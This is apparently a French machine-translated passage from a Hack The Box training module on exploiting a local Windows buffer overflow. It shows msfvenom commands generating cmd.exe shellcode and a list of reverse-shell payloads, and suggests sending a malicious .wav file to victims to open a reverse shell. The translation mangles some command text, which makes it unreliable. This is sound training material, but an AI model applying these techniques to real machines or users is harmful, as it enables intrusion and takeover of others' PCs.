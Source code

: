 ![Calc](https://academy.hackthebox.com/storage/modules/89/win32bof_calc.jpg)

Comme nous pouvons le voir, notre programme a planté, mais nous l'avons exploité avec succès et avons exécuté notre shellcode, qui a ouvert `calc.exe`.

* * * * *

Obtenir l'exécution du code
----------------------

La dernière étape serait d'utiliser cet exploit pour obtenir l'exécution du code. Étant donné que nous avons affaire à un débordement de tampon local s'exécutant sur une machine à laquelle nous avons un accès au niveau utilisateur, nous utiliserons généralement cet exploit pour élever nos privilèges à l'utilisateur administrateur si un administrateur local a exécuté ce programme. Une autre façon d'utiliser cela consiste à écrire un fichier `.wav` malveillant qui renvoie un shell inversé. Nous partagerions ensuite ce fichier malveillant avec un utilisateur qui utilise cette application vulnérable et lui demanderions d'encoder notre fichier `.wav` malveillant. Lorsqu'ils le font, nous recevons une coque inversée et prenons le contrôle de leur PC.

Pour faire l'une ou l'autre de ces options, tout ce que nous avons à faire est de changer notre shellcode pour faire autre chose. Pour l'élévation locale des privilèges, nous pouvons utiliser la même commande que nous avons utilisée pour `calc.exe`, mais utiliser `CMD=cmd.exe` à la place, comme suit :

```
dsgsec@htb[/htb]$ msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'

...COUPER...
buf = b""
buf += b"\xd9\xc8\xb8\x7c\x9f\x8c\x72\xd9\x74\x24\xf4\x5d\x33"
buf += b"\xc9\xb1\x31\x83\xed\xfc\x31\x45\x13\x03\x39\x8c\x6e"
...COUPER...

```

Si nous voulions obtenir un shell inversé, nous pouvons utiliser de nombreuses charges utiles "msfvenom", dont nous pouvons obtenir la liste suivante :

```
dsgsec@htb[/htb]$ msfvenom -l charges utiles | grep fenêtres | grep inverse

...COUPER...
     windows/shell/reverse_tcp Générer un shell de commande canalisé (mis en scène). Reconnectez-vous à l'attaquant
     windows/shell/reverse_tcp_allports Générer un shell de commande canalisé (mis en scène). Essayez de vous reconnecter à l'attaquant, sur tous les ports possibles (1-65535, lentement)
     windows/shell/reverse_tcp_dns Générer un shell de commande canalisé (mis en scène). Reconnectez-vous à l'attaquant
     windows/shell/reverse_tcp_rc4 Générer un shell de commande canalisé (mis en scène). Reconnectez-vous à l'attaquant
     windows/shell/reverse_tcp_rc4_dns Générer un shell de commande canalisé (mis en scène). Reconnectez-vous à l'attaquant
     windows/shell/reverse_tcp_uuid Générer un shell de commande canalisé (mis en scène). Reconnectez-vous à l'attaquant avec le support UUID
     windows/shell/reverse_udp Générer un shell de commande canalisé (mis en scène). Reconnectez-vous à l'attaquant avec le support UUID
     windows/shell_reverse_tcp Se reconnecter à l'attaquant et générer un shell de commande
...COUPER...

```
